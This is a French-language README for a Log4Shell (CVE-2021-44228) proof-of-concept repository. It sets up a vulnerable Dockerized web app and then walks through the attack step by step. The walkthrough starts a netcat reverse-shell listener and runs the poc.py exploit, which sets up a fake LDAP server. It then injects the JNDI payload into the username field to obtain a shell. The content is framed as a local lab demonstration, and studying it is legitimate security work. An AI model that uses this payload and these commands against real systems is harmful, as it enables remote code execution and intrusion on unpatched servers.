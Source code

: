# log4j-shell-poc

Voici une preuve de concept pour la vulnérabilité CVE-2021-44228

Ce travail repose essentiellement sur les travaux de réaliser sur le Git Hub suivant : https://github.com/kozmer/log4j-shell-poc

Dans ce dépôt, il y a un :
* Un exemple d'application web vulnérable qui pourra être exécuté grâce au conteneur docker. 
* Un exploit de preuve de concept, le fichier poc.py

### Mise en place de l’environnement :

Installer les bibliothèques python nécessaire à l'exécution de l'exploite poc.py :
```py
pip install -r requirements.txt
```

Créer l'image du conteneur qui exécutera l'application vulnérable :
```bash
docker build -t log4j-shell-poc
```

### Exécution de l’attaque :

Démarrer netcat pour accepter une connexion reverse shell :
``` bash
nc -lvnp 9001
```

Démarrer l'application web vulnérable : 
```bash
docker run --network host log4j-shell-poc
```
Lancer l'exploit :
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Ce script va configurer le serveur HTTP et le serveur LDAP de l'attaquant, et il va également créer la charge utile que vous pouvez utiliser pour coller dans le paramètre vulnérable.
Cette charge utile doit être copiée dans la partie nom d’utilisateur de l'application vulnérable à l'adresse : http://localhost:8080/
 Après cela, si tout s'est bien passé, vous devriez obtenir un shell sur le por 9001.

### Récupération des logs de l’attaque : 
Les logs du serveur se trouvent dans le conteneur Docker.  Vous pouvez exécuter les commandes suivantes pour les copier-coller logs sur le machin hôte :
Démarrer l'application web vulnérable : 
```bash
#commande ci-dessous à exécuter depuis l’hôte
docker cp container_id:/usr/local/tomcat/logs /PathHôte #commandes ci-dessous sont à exécuter depuis l’hôte
```
### Quelque détail sur le fonctionnement :
Nous avons choisi l'archive vulnérable `jdk1.8.0_20`.
